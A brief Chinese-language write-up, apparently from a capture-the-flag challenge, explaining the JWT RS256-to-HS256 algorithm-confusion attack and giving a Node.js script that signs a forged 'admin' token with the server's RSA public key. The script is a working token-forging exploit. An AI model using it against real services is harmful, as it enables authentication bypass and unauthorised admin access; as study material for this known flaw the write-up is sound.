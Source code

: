 # 知识点
**将RS256算法改为HS256（非对称密码算法=>对称密码算法）**<br />如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名。<br />由于攻击者有时可以获取公钥，因此，攻击者可以将头部中的算法修改为HS256，然后使用RSA公钥对数据进行签名。<br />这样的话，后端代码使用RSA公钥+HS256算法进行签名验证。
# 思路
通过源码我们可以找到公钥<br />因为python和nodejs的jwt库有些不同，所以直接使用nodejs来生成jwt<br />不要忘了下载jsonwebtoken包
```bash
npm install jsonwebtoken --save
```
```javascript
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)

```

